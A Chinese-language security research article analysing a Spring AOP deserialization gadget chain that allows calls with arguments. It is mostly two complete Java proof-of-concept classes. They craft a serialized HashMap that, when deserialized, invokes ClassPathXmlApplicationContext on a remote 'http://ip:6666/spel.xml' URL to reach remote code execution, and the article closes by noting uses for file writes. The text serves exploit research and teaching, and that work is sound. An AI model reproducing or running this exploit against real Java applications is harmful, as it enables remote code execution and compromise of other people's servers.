# SpringAOP链有参调用分析-先知社区

> **来源**: https://xz.aliyun.com/news/18799  
> **文章ID**: 18799

---

# SpringAOP链有参调用分析

前言：这个是很早之前在知识星球看到 jsjcw 师傅的文章学习的，下面简单分析一下。

## 无参利用链修改

一开始本来想照着以前 spring aop 无参调用的 poc 来改写，但是发现太多问题了，看师傅的文章大概意思就是通过有参方法触发的话那么就可以进行有参调用并且需要返回值可控，选择的是 `map.get` 来触发，然后通过 `hashtable.equals` 来调用 `map.get`，因为 t 和 key 都是可控的，返回值可控。



然后 sink 点选的是 `AnnotatedConstructor.call1` 方法，只需要一个参数，调用构造函数



不难想到可以利用 `ClassPathXmlApplicationContext` 类来进行 rce，source 就通过 `hashmap.readobject` 方法进行触发，poc 修改也比较简单，就是把头和尾换一下。

```
import com.fasterxml.jackson.databind.introspect.AnnotatedConstructor;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import javax.management.BadAttributeValueExpException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import org.aopalliance.aop.Advice;  
import org.aopalliance.intercept.MethodInterceptor;  
import org.springframework.aop.aspectj.AspectJAroundAdvice;  
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;  
import org.springframework.aop.framework.AopProxy;  
import java.lang.reflect.Proxy;  
import java.lang.reflect.InvocationHandler;  
import org.springframework.aop.aspectj.AspectJExpressionPointcut;  
import org.springframework.aop.framework.AdvisedSupport;  
import org.springframework.aop.support.DefaultIntroductionAdvisor;  
import javassist.*;  
import org.springframework.aop.support.RegexpMethodPointcutAdvisor;  
import org.springframework.context.support.ClassPathXmlApplicationContext;  
import sun.misc.Unsafe;  
  
import java.io.FileInputStream;  
import java.io.FileOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Hashtable;  
import java.util.Map;  
  
public class test2{  
    public static void main(String[] args) throws Exception {  
        AnnotatedConstructor an=(AnnotatedConstructor) createObjWithoutConstructor(AnnotatedConstructor.class);  
        Constructor con=Class.forName("org.springframework.context.support.ClassPathXmlApplicationContext").getConstructor(String.class);  
        setFieldValue(an,"_constructor",con);  
        Method method1 = an.getClass().getDeclaredMethod("call1",Object.class);  
  
        AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();  
        SingletonAspectInstanceFactory x1 = new SingletonAspectInstanceFactory(an);  
  
        AspectJAroundAdvice aspectJAroundAdvice = new AspectJAroundAdvice(method1,pointcut,x1);  
  
  
        Class clazz0 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");  
        Constructor constructor0 = clazz0.getDeclaredConstructor(AdvisedSupport.class);  
        constructor0.setAccessible(true);  
  
        DefaultIntroductionAdvisor decorator = new DefaultIntroductionAdvisor(aspectJAroundAdvice);  
  
        AdvisedSupport advisedSupport1 = new AdvisedSupport();  
        advisedSupport1.setTarget(an);  
        advisedSupport1.addAdvisor(decorator);  
  
        AopProxy proxy = (AopProxy) getProxy(constructor0,advisedSupport1,new Class[]{AopProxy.class, Map.class});  
  
        Hashtable t=new Hashtable();  
        t.put("http://ip:6666/spel.xml","\u1224\u0013\u0005\u000b");  
  
        HashMap map = new HashMap();  
        map.put("aaa","test");  
        map.put(t,"test");  
  
        Class<?> clazz = HashMap.class;  
        Field tableField = clazz.getDeclaredField("table");  
        tableField.setAccessible(true);  
  
        Object[] table = (Object[]) tableField.get(map);  
  
        for (Object node : table) {  
            if (node == null) continue;  
  
            // HashMap.Node<K,V> 是内部类，包含 key 和 value 字段  
            Class<?> nodeClass = node.getClass();  
  
            Field keyField = nodeClass.getDeclaredField("key");  
            keyField.setAccessible(true);  
  
            Field valueField = nodeClass.getDeclaredField("value");  
            valueField.setAccessible(true);  
  
            Object key = keyField.get(node);  
            if ("aaa".equals(key)) {  
                // 修改值为 "hacked"                keyField.set(node, proxy);  
            }  
        }  
  
  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("ser.ser"));  
        out.writeObject(map );  
        out.close();  
  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("ser.ser"));  
        in.readObject();  
        in.close();  
    }  
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
  
    public static Object getProxy(Constructor constructor,AdvisedSupport advised,Class[] interface1) throws Exception{  
        InvocationHandler invocatinoHandler = (InvocationHandler) constructor.newInstance(advised);  
        Object proxy = (Object) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),interface1,invocatinoHandler);  
        return proxy;  
    }  
    public static <T> T createObjWithoutConstructor(Class<T> clazz) {  
        try {  
            // 通过反射获取 Unsafe 实例  
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
            unsafeField.setAccessible(true);  
            Unsafe unsafe = (Unsafe) unsafeField.get(null);  
  
            // 使用 Unsafe 分配对象内存（不会调用构造函数）  
            return (T) unsafe.allocateInstance(clazz);  
        } catch (Exception e) {  
            throw new RuntimeException("Failed to create instance without constructor", e);  
        }  
    }  
}
```

结果发现在调用到 t.get 方法前会先调用 t.size 方法，这个 t 是我们的代理类



然后会导致提前触发 invoke



接着就是后面一系列报错利用链断掉。

## RegexpMethodPointcutAdvisor类利用

后面又问了下squirt1e师傅重新看了下，注意到还有个关键类- `RegexpMethodPointcutAdvisor` ，这个类可以添加正则规则，感觉可以指定代理方法的调用，添加如下代码，

```
RegexpMethodPointcutAdvisor re=new RegexpMethodPointcutAdvisor(aspectJAroundAdvice);  
re.setPattern(".*get");
```

然后再次进行调用，再进入获得 chain 的时候，因为调用的方法和正则的方法不一样所以这里不会添加类到 chain 中，正则是 get 而这里式 size 触发的，



所以会直接反射调用，但是这里又有个问题，因为设置的 tagert 是 AnnotatedConstructor 类，而这个类没有 size 方法，会直接报错了



那么我想的是再套层代理，把 tagert 设为 hashtable，这样在调用到这里的时候就会再次触发 invoke 这是因为 tagert 是 hashtable 所以可以成功调用 size 方法，因为这个 target 其实没太大用，最后调用的时候看的是 `SingletonAspectInstanceFactory` 的返回值

```
SingletonAspectInstanceFactory x1 = new SingletonAspectInstanceFactory(an);
```

或者也可以直接设置一个新的 hashtable 也需要 size 为 1，像我这样再套层代理有个好处不用进行 hash 碰撞了，不过注意需要修改hashCodeDefined，至于细节需要自己多调一下，



然后看到会调用到代理类的 hashcode 方法，



会再次触发 invoke，这是会调用 hashtable.hashcode ，这样就会和后面的 hashtable.hashcode 一样，都不用进行 hash 碰撞了，

然后其实后面调用有参方法还是会报错，发现还需要调用 `setReturningName` 方法设置 `ReturningName` 属性为**方法参数名**，



最终 poc（有点繁琐，感觉应该可以更精炼）

```
import com.fasterxml.jackson.databind.introspect.AnnotatedConstructor;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import javax.management.BadAttributeValueExpException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import org.aopalliance.aop.Advice;  
import org.aopalliance.intercept.MethodInterceptor;  
import org.springframework.aop.AfterReturningAdvice;  
import org.springframework.aop.aspectj.AspectJAfterReturningAdvice;  
import org.springframework.aop.aspectj.AspectJAroundAdvice;  
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;  
import org.springframework.aop.framework.AopProxy;  
import java.lang.reflect.Proxy;  
import java.lang.reflect.InvocationHandler;  
import org.springframework.aop.aspectj.AspectJExpressionPointcut;  
import org.springframework.aop.framework.AdvisedSupport;  
import org.springframework.aop.framework.adapter.AfterReturningAdviceInterceptor;  
import org.springframework.aop.interceptor.ExposeInvocationInterceptor;  
import org.springframework.aop.support.DefaultIntroductionAdvisor;  
import javassist.*;  
import org.springframework.aop.support.RegexpMethodPointcutAdvisor;  
import org.springframework.context.support.ClassPathXmlApplicationContext;  
import sun.misc.Unsafe;  
  
import java.io.FileInputStream;  
import java.io.FileOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Method;  
import java.util.HashMap;  
import java.util.Hashtable;  
import java.util.Map;  
  
public class test3{  
    public static void main(String[] args) throws Exception {  
        AnnotatedConstructor an=(AnnotatedConstructor) createObjWithoutConstructor(AnnotatedConstructor.class);  
        Constructor con=Class.forName("org.springframework.context.support.ClassPathXmlApplicationContext").getConstructor(String.class);  
        setFieldValue(an,"_constructor",con);  
        Method method1 = an.getClass().getDeclaredMethod("call1",Object.class);  
  
        AspectJExpressionPointcut pointcut = new AspectJExpressionPointcut();  
        SingletonAspectInstanceFactory x1 = new SingletonAspectInstanceFactory(an);  
        AspectJAfterReturningAdvice a=new AspectJAfterReturningAdvice(method1,pointcut,x1);  
        a.setReturningName("arg");  
        AfterReturningAdviceInterceptor aspectJAroundAdvice = new AfterReturningAdviceInterceptor(a);  
  
  
        Class clazz0 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");  
        Constructor constructor0 = clazz0.getDeclaredConstructor(AdvisedSupport.class);  
        constructor0.setAccessible(true);  
  
        Hashtable t=new Hashtable();  
  
//        DefaultIntroductionAdvisor decorator = new DefaultIntroductionAdvisor(aspectJAroundAdvice);  
        RegexpMethodPointcutAdvisor re=new RegexpMethodPointcutAdvisor(aspectJAroundAdvice);  
        re.setPattern(".*get");  
  
        Constructor<?> c = ExposeInvocationInterceptor.class.getDeclaredConstructors()[0];  
        c.setAccessible(true);  
        ExposeInvocationInterceptor interceptor = (ExposeInvocationInterceptor) c.newInstance();  
  
        AdvisedSupport advisedSupport2 = new AdvisedSupport();  
        advisedSupport2.setTarget(t);  
        advisedSupport2.addAdvice(interceptor);  
        advisedSupport2.addAdvisor(re);  
        AopProxy proxy1 = (AopProxy) getProxy(constructor0,advisedSupport2,new Class[]{AopProxy.class, Map.class});  
  
  
        AdvisedSupport advisedSupport1 = new AdvisedSupport();  
        advisedSupport1.setTarget(proxy1);  
        advisedSupport1.addAdvisor(re);  
  
        AopProxy proxy = (AopProxy) getProxy(constructor0,advisedSupport1,new Class[]{AopProxy.class, Map.class});  
  
        t.put("http://ip:6666/spel.xml","http:ip:6666/spel.xml");  
        HashMap map = new HashMap();  
        map.put("aaa","test");  
        map.put(t,"test");  
  
        Class<?> clazz = HashMap.class;  
        Field tableField = clazz.getDeclaredField("table");  
        tableField.setAccessible(true);  
  
        Object[] table = (Object[]) tableField.get(map);  
  
        for (Object node : table) {  
            if (node == null) continue;  
  
            // HashMap.Node<K,V> 是内部类，包含 key 和 value 字段  
            Class<?> nodeClass = node.getClass();  
  
            Field keyField = nodeClass.getDeclaredField("key");  
            keyField.setAccessible(true);  
  
            Field valueField = nodeClass.getDeclaredField("value");  
            valueField.setAccessible(true);  
  
            Object key = keyField.get(node);  
            if ("aaa".equals(key)) {                
                keyField.set(node, proxy);  
            }  
        }  
  
//        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("ser.ser"));  
//        out.writeObject(map );  
//        out.close();  
  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("ser.ser"));  
        in.readObject();  
        in.close();  
    }  
    public static void setFieldValue(Object obj,String fieldName,Object value) throws Exception{  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
  
    public static Object getProxy(Constructor constructor,AdvisedSupport advised,Class[] interface1) throws Exception{  
        InvocationHandler invocatinoHandler = (InvocationHandler) constructor.newInstance(advised);  
        setFieldValue(invocatinoHandler,"hashCodeDefined",true);  
        Object proxy = (Object) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),interface1,invocatinoHandler);  
        return proxy;  
    }  
    public static <T> T createObjWithoutConstructor(Class<T> clazz) {  
        try {  
            // 通过反射获取 Unsafe 实例  
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
            unsafeField.setAccessible(true);  
            Unsafe unsafe = (Unsafe) unsafeField.get(null);  
  
            // 使用 Unsafe 分配对象内存（不会调用构造函数）  
            return (T) unsafe.allocateInstance(clazz);  
        } catch (Exception e) {  
            throw new RuntimeException("Failed to create instance without constructor", e);  
        }  
    }  
}
```

成功进行有参调用，而且参数并不是通过 map.get 返回的，直接 hashtable 设置就行了。





至于为什么需要有参调用以及有参调用的好处可能更多的体现在写文件上，通过写文件可以实现很多不出网的利用。
